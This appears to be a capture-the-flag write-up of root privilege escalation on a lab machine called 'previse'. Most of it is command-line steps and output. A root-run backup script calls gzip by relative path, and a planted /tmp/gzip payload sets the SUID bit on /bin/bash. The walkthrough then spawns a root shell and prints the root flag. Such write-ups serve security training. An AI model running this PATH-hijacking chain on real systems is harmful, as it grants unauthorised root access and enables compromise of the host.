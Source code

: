 1. Use **sudo -l**
```bash
bash-4.4$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

2. Look previous file
```bash
bash-4.4$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

3. This file use relative path this is vulnerable to **Path Hijacking**

4. Create a file with name gzip in **tmp directory** and put this script
```bash
bash-4.4$ echo "chmod u+s /bin/bash" > gzip
```

* Put execute permission
```bash
bash-4.4$ chmod u+x gzip
```

* Now alter path with this
```bash
bash-4.4$ export PATH=/tmp:$PATH
```

* This way when `/opt/scripts/access_backup.sh` running search for **gzip** first in **/tmp directory** in this folder will find our gzip file create previously and will execute the script in this how root. 

5. Execute `/opt/scripts/access_backup.sh` how root
```bash
bash-4.4$ sudo -u root /opt/scripts/access_backup.sh
```

6. View permission of **bash**
```bash
bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

7. Spawn a shell how **root user**
```bash
bash-4.4$ bash -p
bash-4.4# whoami
root
```

8. Cat root flag
```bash
bash-4.4# cat /root/root.txt 
f1753dc82c7764d26acf6a2f037c3cae
```